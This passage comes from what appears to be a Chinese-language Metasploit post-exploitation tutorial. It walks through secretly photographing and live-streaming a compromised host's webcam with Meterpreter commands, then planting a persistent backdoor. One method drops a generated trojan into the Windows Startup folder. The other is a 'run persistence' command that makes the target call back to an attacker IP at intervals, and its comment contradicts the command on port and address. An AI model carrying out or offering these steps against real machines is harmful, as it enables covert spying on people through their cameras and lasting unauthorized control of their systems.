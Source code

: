 ### 用目标主机摄像头拍照

·  获取目标系统的摄像头列表：webcam_list

·  从指定的摄像头，拍摄照片：webcam_snap

·  从指定的摄像头，开启视频：webcam_stream

可以看到啊，目标主机有一个摄像头

![](https://p5.ssl.qhimg.com/t0123e9407a69b82c96.png)

于是，我们拍一张照片看看，可以看到，已经拍完了照，并且显示出来了

![](https://p4.ssl.qhimg.com/t01b8cf37b17d857b3b.png)

我们再来开启视频试试，开启摄像头拍摄视频。他会弹出一个网页，可以查看到摄像头那端的实时操作，相当于直播

![](https://p2.ssl.qhimg.com/t0178aa298db9708ebb.png)

### 使用扩展库

输入 load 或者 run 然后双击table

![](https://p4.ssl.qhimg.com/t0162d81287b866ae2a.png)

### 生成持续性后门

因为 meterpreter 是基于内存DLL建立的连接，所以，只要目标主机关机，我们的连接就会断。总不可能我们每次想连接的时候，每次都去攻击，然后再利用 meterpreter 建立连接。所以，我们得在目标主机系统内留下一个持续性的后门，只要目标主机开机了，我们就可以连接到该主机。

建立持续性后门有两种方法，一种是通过**启动项启动**(persistence) ，一种是通过 **服务启动**(metsvc)

**启动项启动**

启动项启动的话，我们先生成一个后门工具，传送门——> [用MSF生成一个后门木马](https://blog.csdn.net/qq_36119192/article/details/83869141)

然后放到windows的启动目录中：

```makefile
C:\Users\$username$\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)

这样这个后门每次开机就都能启动了，然后我们只要相连就监听相应的端口就行了。

**服务启动**

通过服务启动，我们可以运行命令

```yaml
run persistence -X -i 5 -p 8888 -r 192.168.10.27  #反弹时间间隔是5s 会自动连接192.168.27的4444端口，缺点是容易被杀毒软件查杀
​
#然后它就在目标机新建了这个文件：C:\Windows\TEMP\CJzhFlNOWa.vbs ，并把该服务加入了注册表中，只要开机就会启动
```
